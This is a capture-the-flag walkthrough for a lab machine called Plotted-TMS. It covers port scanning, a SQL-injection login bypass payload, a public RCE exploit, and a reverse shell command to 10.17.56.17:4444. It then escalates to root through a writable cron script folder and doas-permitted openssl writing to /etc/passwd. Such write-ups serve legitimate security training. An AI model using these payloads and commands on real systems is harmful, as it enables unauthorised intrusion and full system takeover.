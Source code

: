 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)

## Recon-Enumeration  

This is machine is easy, however there is some rabiit hole where you can get stuck.

Let's start with a basic enumeration -> sudo masscan -p 1-65535 -i tun0 --rate=1000 <IP>
![alt text](./img/plottedtms01.png?raw=true)

Ok, here i decided to check the port 80
![alt text](./img/plottedtms02.png?raw=true)

A default apache page, so search for directories: feroxbuster -u http://<IP> -w ~/wordlists/small.txt -d 1
![alt text](./img/plottedtms03.png?raw=true)

Visitng these links...
![alt text](./img/plottedtms04.png?raw=true)
![alt text](./img/plottedtms05.png?raw=true)
![alt text](./img/plottedtms06.png?raw=true)
![alt text](./img/plottedtms07.png?raw=true)

Damm it, nothing usefull. Returning to masscan i decide to nmap those ports
![alt text](./img/plottedtms08.png?raw=true)

Hummm, there is a http on port 445 too, so enumeration again
![alt text](./img/plottedtms09.png?raw=true)

Ok, just one find, but let's visit it
![alt text](./img/plottedtms10.png?raw=true)
![alt text](./img/plottedtms11.png?raw=true)

A basic login page, i ALWAYS use the payload <admin' or 1=1;#-- -> to test for login bypass
![alt text](./img/plottedtms12.png?raw=true)
![alt text](./img/plottedtms13.png?raw=true)

## Exploit

Visiting the site we can't find nothing usefull, so let's search for a exploit
![alt text](./img/plottedtms14.png?raw=true)

So download the 50221.py file. Reading the file i found some referencer to /classes.....
![alt text](./img/plottedtms15.png?raw=true)

However nothing about the /management, so probably we need to inform in the input. Testing....
![alt text](./img/plottedtms16.png?raw=true)

After use the 'id' command the cript return an error, however we have the url payload after INVALID URL in the last line.
So i open it on my browser and tested againd he same command
![alt text](./img/plottedtms17.png?raw=true)

Grat, we have RCE. Here i used a encoded basic reverse shell payload "bash -c 'exec bash -i &>/dev/tcp/10.17.56.17/4444 <&1'"
If you have problem with encoding i suggest this website: [urldecoder](https://meyerweb.com/eric/tools/dencoder/)
![alt text](./img/plottedtms18.png?raw=true)

## Privesc - plot_admin

Enumerating the Web folders, there is some interesnting files
![alt text](./img/plottedtms19.png?raw=true)
![alt text](./img/plottedtms20.png?raw=true)

Reading /etc/passwd we found 2 users
![alt text](./img/plottedtms21.png?raw=true)

Trying this password on these 2 users failed :(
![alt text](./img/plottedtms22.png?raw=true)

So let's check the database to look for other credential
![alt text](./img/plottedtms23.png?raw=true)
![alt text](./img/plottedtms24.png?raw=true)
![alt text](./img/plottedtms25.png?raw=true)

Decoding these hashs with [crackstation](https://crackstation.net/) we found 1 match
![alt text](./img/plottedtms26.png?raw=true)

Testing again with the 2 users failed..... again :(
![alt text](./img/plottedtms27.png?raw=true)

Continuing enumerate i found an "scripts" folder with a "backup.sh" file
![alt text](./img/plottedtms28.png?raw=true)
![alt text](./img/plottedtms29.png?raw=true)

Analyzing the script it probably is execute by some routine on the system. So i check /etc/crontab
![alt text](./img/plottedtms30.png?raw=true)

Ok, on crontab the user that execute this script is plot_admin, so we can user this to elevate privilege. However i don't have write permission on the backup.sh file, BUT i have write permision on "scripts" folder. 
So let's remover the backup.sh file and create a new one
![alt text](./img/plottedtms31.png?raw=true)
![alt text](./img/plottedtms32.png?raw=true)

Now just start a nc listener and wait
![alt text](./img/plottedtms33.png?raw=true)

Success, let's grab the flag
![alt text](./img/plottedtms41.png?raw=true)

## Privesc  - root

As basic enumeration to prives i check for SUID files "find / -perm -u=s 2>/dev/null". Where i found the "/usr/bin/doas"
![alt text](./img/plottedtms34.png?raw=true)

Usually it is used to run commands like othe user (like su). So i try it
![alt text](./img/plottedtms35.png?raw=true)

Fail again..... so let's check the doas.conf file
![alt text](./img/plottedtms36.png?raw=true)

So we can only user to run OPENSSL as ROOT. Checking the [gtfobins](https://gtfobins.github.io/) there is an interesting option 
![alt text](./img/plottedtms37.png?raw=true)

So my idea is the add a root user in /etc/passwd. To do this we generate an encrypted password and create a line to be add on the file
![alt text](./img/plottedtms38.png?raw=true)

Let's execute it on the machine and test
![alt text](./img/plottedtms39.png?raw=true)

Success, we are ROOT. Just grab the flag
![alt text](./img/plottedtms40.png?raw=true)

